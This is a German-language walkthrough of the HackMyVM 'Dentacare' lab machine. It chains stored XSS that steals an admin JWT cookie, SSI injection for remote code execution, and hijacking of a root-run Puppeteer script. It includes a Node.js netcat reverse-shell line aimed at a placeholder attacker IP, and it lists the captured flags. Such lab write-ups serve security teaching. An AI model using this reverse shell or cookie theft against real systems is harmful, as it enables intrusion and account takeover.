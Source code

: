 # Dentacare - HackMyVM (Medium)

![Dentacare.png](Dentacare.png)

## Übersicht

*   **VM:** Dentacare
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Dentacare)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 06. August 2024
*   **Original-Writeup:** https://alientec1908.github.io/Dentacare_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Medium"-Challenge war es, Root-Zugriff auf der Maschine "Dentacare" zu erlangen. Die Enumeration deckte einen Python/Werkzeug-Webserver (Port 80) und einen Apache-Server (Port 8000) auf. Obwohl die Werkzeug-Debug-Konsole unter `/console` gefunden wurde, fokussierte sich der Angriff auf eine Stored XSS-Schwachstelle (vermutlich in einer Kommentarfunktion), um den JWT-Admin-Cookie zu stehlen. Mit diesem Cookie wurde Zugriff auf den Apache-Server (Port 8000) erlangt. Dort ermöglichte eine Server-Side Include (SSI) Injection RCE als Benutzer `www-data`. Die Privilegieneskalation zu Root erfolgte durch Manipulation eines Node.js-Skripts (`/opt/appli/.config/read_comment.js`), das `puppeteer` verwendete und regelmäßig (vermutlich als Root und mit der Option `--no-sandbox`) ausgeführt wurde. Durch Überschreiben dieses Skripts mit einer Reverse-Shell-Payload wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wfuzz`
*   `sqlmap` (Versuch, nicht erfolgreich)
*   `python3` (für `http.server` und Skripte zur PIN-Berechnung)
*   Browser mit Cookie-Editor (oder Burp Suite)
*   `jwt.io` (zur JWT-Analyse)
*   `nc` (netcat)
*   Node.js (`child_process`, `puppeteer` auf Zielsystem)
*   Standard Linux-Befehle (`vi`, `curl`, `stty`, `cp`, `echo`, `cat`, `ls`, `cd`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Dentacare" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.114`, Hostname `dentacare.hmv`).
    *   `nmap`-Scan identifizierte SSH (22/tcp), einen Python/Werkzeug-Webserver (80/tcp) und einen Apache-Server (8000/tcp, 403 Forbidden).
    *   `nikto` und `gobuster` auf Port 80 fanden Standardseiten sowie `/contact` (500 Error), `/admin` (Redirect) und `/comment` (405 Method Not Allowed).
    *   SQL-Injection-Versuche mit `sqlmap` waren erfolglos.
    *   Die Werkzeug-Debug-Konsole wurde unter `/console` gefunden, aber durch eine PIN gesperrt. (Ein PIN-Berechnungsskript wurde gezeigt, aber der Weg über XSS wurde weiterverfolgt).

2.  **XSS, JWT Hijacking & Admin Access:**
    *   Ein Stored XSS-Payload (``) wurde (vermutlich über `/comment`) injiziert.
    *   Ein Python-HTTP-Server wurde gestartet, um den via XSS exfiltrierten Cookie (`document.cookie`) zu empfangen.
    *   Der gestohlene Cookie (`Authorization=eyJ...`) wurde als JWT identifiziert. `jwt.io` zeigte, dass der Token einem Administrator (`admin@dentacare.hmv`) gehörte.
    *   Der gestohlene Admin-JWT wurde mit einem Cookie-Editor im Browser gesetzt. Der Zugriff auf `/admin` leitete nun auf `http://dentacare.hmv:8000/` um.

3.  **SSI RCE & Low Privilege Shell (als www-data):**
    *   Auf der Anwendung unter Port 8000 (Apache) wurde ein Formular gefunden, das Benutzereingaben (`cmd`-Parameter) in eine `.shtml`-Datei (`patient_name.shtml`) schrieb.
    *   Eine SSI-Injection-Schwachstelle wurde durch Eingabe von `` bestätigt.
    *   Eine SSI-Payload (``) wurde injiziert, um eine Reverse Shell zu einem Netcat-Listener zu starten.
    *   Erfolgreicher Shell-Zugriff als Benutzer `www-data`.

4.  **Privilege Escalation (von `www-data` zu `root` via Puppeteer Script Hijacking):**
    *   Als `www-data` wurde das Node.js-Skript `/opt/appli/.config/read_comment.js` gefunden.
    *   Dieses Skript verwendete `puppeteer` (mit `--no-sandbox` Option) und den zuvor gestohlenen Admin-JWT, um `localhost:80/view-all-comments` zu besuchen. Es wurde angenommen, dass dieses Skript regelmäßig mit erhöhten Rechten (vermutlich `root`) ausgeführt wird.
    *   Da `www-data` (vermutlich) Schreibrechte auf das Skript hatte, wurde es mit einem Node.js-Reverse-Shell-Payload (`require("child_process").exec("nc -e /bin/bash [Angreifer-IP] 2345")`) überschrieben.
    *   Ein Netcat-Listener wurde auf Port 2345 gestartet. Kurz darauf verband sich eine Shell als `root`.
    *   Die User- und Root-Flags wurden gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Werkzeug Debug Console Exposure:** Obwohl nicht direkt im Hauptangriffspfad genutzt, stellte die erreichbare `/console` ein potenzielles Risiko dar.
*   **Stored Cross-Site Scripting (XSS):** Ermöglichte den Diebstahl des Admin-JWT-Cookies.
*   **Unsichere Session-Cookies (JWT):** Der Admin-Cookie war nicht ausreichend gegen Diebstahl (z.B. durch fehlendes `HttpOnly`-Flag) geschützt.
*   **Server-Side Include (SSI) Injection:** Erlaubte Remote Code Execution auf dem Apache-Server (Port 8000).
*   **Unsichere Konfiguration von automatisierten Skripts (Puppeteer):** Ein als `root` (oder mit hohen Rechten) und mit `--no-sandbox` laufendes Puppeteer-Skript, das von einem weniger privilegierten Benutzer (`www-data`) modifiziert werden konnte, führte zur Root-Eskalation.
*   **Fehlende Dateiberechtigungen:** Das Puppeteer-Skript hatte unzureichende Berechtigungen.

## Flags

*   **User Flag (`/home/dentist/user.txt`):** `ef2f3bab2950c28547e17d32f864f172`
*   **Root Flag (`/root/r00t.txt`):** `31b80e67e233ed342639f36b10ecb64d`

## Tags

`HackMyVM`, `Dentacare`, `Medium`, `Web`, `Python`, `Werkzeug`, `Apache`, `XSS`, `JWT Hijacking`, `SSI Injection`, `RCE`, `Node.js`, `Puppeteer`, `Script Hijacking`, `Privilege Escalation`, `Linux`
